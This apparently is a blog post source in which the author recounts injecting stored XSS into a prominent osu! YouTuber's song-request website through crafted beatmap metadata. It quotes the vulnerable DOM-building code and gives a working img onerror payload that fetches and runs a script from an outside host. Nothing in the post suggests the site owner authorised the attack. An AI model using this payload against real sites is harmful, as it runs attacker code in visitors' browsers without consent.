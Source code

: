 ```yaml
---
layout: post
title: How I hacked a YouTubers website
---
```

### Introduction
I hacked the website of the largest osu! game content creator. Osu (stylized "osu!") is a rhythm game with a simple premise; click the circles which appear to the beat of the song. There is thousands of different songs in the game, also known as a "beatmaps". Among the notable figures in this community is BTMC, a prominent YouTuber and Twitch streamer known for his osu! related content such as the following:

<iframe width="100%" height="400px" src="https://www.youtube.com/embed/qIaCmyRNB34" title="Playing osu! On The Worlds Largest Keyboard ft. Glarses" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

It is common to see viewers recommending beatmaps for a streamer to play live. To handle the large amount of song requests, he has a website which you can request specific songs from osu! to be played by him. Here is what this user interface looks like.
![Request website preview](https://files.catbox.moe/f390o2.png)


### Analyzing The Request Bot
My first thought was to check the client-side of the website as this is not an open-source project. I was particularly curious in how the the song name / title / artist of a beatmap is displayed to the client. The code which displays a given request to the DOM is the following:
{% highlight javascript %}
function generateHistotyNode(data){
	let request_top = '<div data-bmr-id="'+data.bmr_id+'" class="request-node left-align" style="background-size: cover; background-image: -webkit-linear-gradient(left, rgba(41,40,40,1.0) 0%,rgba(41,40,40,1.0) 25%, rgba(41,40,40,0.85) 40%, rgba(41,40,40,0.5) 100% ), url(https://assets.ppy.sh/beatmaps/'+data.bmr_set_id+'/covers/cover.jpg);">'
	let request_bottom = '</div>'
	let request_time = '<span class="time">'+moment(data.bmr_timestamp).local().format('hh:mm a')+': </span>'
	let request_text = '<a target="_blank" href="https://osu.ppy.sh/b/'+data.bmr_map_id+'" style="color: inherit;"><span class="text">'+data.bmr_msg+'</span></a>'
	let request = request_top + request_time + request_text + request_bottom;
	return request;
}

// .. later in code ... //

let request = generateHistotyNode(data[i])
$('.requests-list').append($(request).hide().fadeIn(300));
{% endhighlight %}

It appears to be taking the metadata from a submitted beatmap and creating an HTML element to be displayed to DOM. Though reviewing this indicated some red-flags to me:
1. There does not appear to be any filtering on the beatmap metadata displayed to DOM.
2. If I can control to beatmap metadata, then I can inject my own HTML code into the website.

### Crafting The Payload
Beatmap files in osu! are just plain text files which contain metadata, positions, and timing of the circles which appear on the screen. Here is an example osu! beatmap which contains 3 notes and metadata of the song file.

{% highlight plain %}
[General]
AudioFilename: audio.mp3
AudioLeadIn: 0
Mode: 0

[Metadata]
Title:Meltdown
TitleUnicode:炉心融解
Artist:Aitsuki Nakuru
ArtistUnicode:藍月なくる
BeatmapID:3808879
BeatmapSetID:1853618

[TimingPoints]
-3073,363.636363636364,4,2,1,50,1,0
7108,-100,4,2,1,55,0,0
8563,-83.3333333333333,4,2,4,50,0,0
9108,-133.333333333333,4,2,1,50,0,0
{% endhighlight %}

Based on the findings earlier, I decided to create my own beatmap with the following metadata and publish it to osu!. I'm setting the title to be a `<img>` tag with the src pointing towards a non-existing image path. Once this request fails, it will use jQuery to fetch my payload script from a webserver. I'm using image tags as scripts do not automatically execute when written to DOM by jQuery.  
{% highlight plain %}
[Metadata]
Title:<img src=x onerror="$.getScript('https://REDACTED.com/btmc.js')">
TitleUnicode:<img src=x onerror="$.getScript('https://REDACTED.com/btmc.js')">
Artist:Aitsuki Nakuru
ArtistUnicode:藍月なくる
Creator:deceit
Version:t-spin
Source:
Tags:
BeatmapID:4945238
BeatmapSetID:2311449
{% endhighlight %}

![Beatmap displayed on official osu! website](https://files.catbox.moe/agxybx.png)

This is how the beatmap is displayed on the official osu! website, the img tag was properly parsed and URL encoded. Though an important note is that when fetching the beatmap using their official API, you get a response like this:
{% highlight javascript %}
{
	/* ... other metadata here */
	"title":"<img src=x onerror=\"$.getScript('https:\/\/REDACTED.com\/btmc.js')\">",
	"title_unicode":"<img src=x onerror=\"$.getScript('https:\/\/REDACTED.com\/btmc.js')\">"
	/* ... other metadata here */
}
{% endhighlight %}

Notice how the API returns the metadata of the beatmap in its original form without encoding any of the values. Finally, I just needed to submit a request with the beatmap ID to his website.

You can see how the rest of this played out on this YouTube video.

<iframe width="100%" height="400px" src="https://www.youtube.com/embed/4TPVRuNX3Qs" title="Someone Hacked Into My Website..." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

![Comments from YouTube video](https://files.catbox.moe/mcpcbt.png)
